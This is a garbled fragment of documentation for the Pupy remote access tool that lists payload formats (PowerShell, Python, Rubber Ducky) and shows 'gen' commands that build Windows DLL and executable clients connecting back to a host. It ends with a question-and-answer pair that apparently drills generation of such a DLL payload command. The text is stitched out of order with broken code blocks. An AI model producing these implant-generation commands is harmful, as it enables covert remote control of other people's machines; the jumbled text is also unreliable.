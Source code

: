 Context:```

-
```pyinst```

-
```py_oneliner```

-
```ps1```

-
```ps1_oneliner```

-
```rubber_ducky```

## Payloads Generation
Payloads generation are done using the `gen` command.
```
>> gen -f <format> <launcher> -t <transport>
```

- Windows dll
```

or
```code
>> download C:\\Windows\\System32\\cmd.exe
```

## Create Aliases
Modules aliases can be defined in the `pupy.conf` file. If you define the following alias :
```code
shell=interactive_shell
```
>> gen -f <format> <launcher> -t <transport>
```

- Windows dll
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

- Windows executable
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

- Python file - Bind
```
 Question: Generate an example of using gen command related to creating  Windows DLLs with Pupy. Each command should follow the format similar to: \n >> gen -f <format> <launcher> -t <transport>. 
```
 Your response: 
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```